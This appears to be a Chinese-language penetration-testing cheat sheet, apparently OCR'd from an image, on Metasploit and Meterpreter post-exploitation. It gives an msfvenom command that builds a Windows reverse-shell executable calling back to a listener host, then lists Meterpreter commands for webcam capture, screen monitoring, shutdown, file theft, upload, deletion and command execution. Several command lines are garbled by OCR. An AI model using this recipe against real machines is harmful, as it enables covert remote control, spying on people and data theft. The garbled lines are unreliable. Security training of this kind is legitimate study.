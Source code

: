 ####msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.149.138 lport=8881 -f exe -o localmsf8881.exe

####msfvenom可以帮助我们从大量的metesploit有效负载中创建需要的负载，合并用到利用程序中。这里使用的**payload**（windows/meterpreter/reverse_tcp），要回连的**主机和端口**（lhost,lport）、**输出格式**（-f exe）都会整合到localmsf8881.exe中

####Metasploit的exploit/multi/handler模块是一个有效负载处理程序，它只处理在受损主机中执行的有效负载连接

####Meterpreter是metasploit的后渗透利用工具。基于内存dll注入实现，能够通过创建一个新进程并调用注入的dll来让目标系统运行注入的dll文件。在该模式下，攻击者与目标设备中Meteroreter的通信是通过stager套接字实现的。

## Meterpreter后渗透

### 获取meterpreter后能做什么？

#### webcam_list:查看摄像头

####webcam_snap：通过摄像头拍照

####web_stream：通过摄像头开始视频

####screenshot：获取屏幕截图

####screenshare：实时监控桌面

####shutdown：关闭目标机器

## Meterpreter后渗透-常用命令

####meterpreter > background 放回后台

####meterpreter > exit 关闭会话

####meterpreter > help 帮助信息

####meterpreter > sysinfo 系统平台信息

####meterpreter > screenshot 屏幕截取

####meterpreter > shell 命令行shell （exit退出）

####meterpreter > getlwd 查看本地目录

####meterpreter > lcd 切换本地目录

####meterpreter > getwd 查看目录

####meterpreter > 老师查看文件目录列表

####meterpreter > cd 切换目录

####meterpreter > rm 删除文件

####meterpreter > download C:\\1.txt 1.txt下载文件

####meterpreter > upload/var/www/wce.exe wce.exe上传文件

####meterpreter > search -d 的、c: -f *.doc 搜索文件

####meterpreter > execute -f cmd.exe -i 执行程序/命令
